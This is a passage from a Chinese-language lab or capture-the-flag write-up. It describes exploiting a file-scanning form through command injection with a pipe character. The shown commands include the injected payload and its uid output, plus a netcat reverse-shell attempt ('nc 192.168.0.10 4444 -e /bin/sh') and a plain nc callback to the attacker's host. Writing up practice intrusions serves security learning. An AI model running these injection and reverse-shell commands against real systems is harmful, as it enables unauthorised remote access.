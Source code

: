 猜测服务器上执行的是`xxAVscan xxxfile`，那么也许我们可以使用`|`进行命令拼接从而执行命令



### 3.2 命令注入

<img src="../images/pics/打靶/4.jpg" style="zoom:50%;" /> 

拼接命令执行，结果如下

```
uid=1001(scanner) gid=1001(scanner) groups=1001(scanner)
```

既然可以执行命令我们就可以反弹shell



## 4. 远程控制

上面我们已经看到有netcat，尝试使用nc反弹shell，查看位置

```
netcat | which nc

#结果
/bin/nc
```

使用nc反弹shell

```
#尝试poc
netcat | nc 192.168.0.10 4444 -e /bin/sh
```

上述没有收到shell，因为<u>有的nc版本没有-e参数</u>

直接使用nc连接证明是否存在nc

```
netcat | nc 192.168.0.10 4444
#结果确实收到了nc连接
```

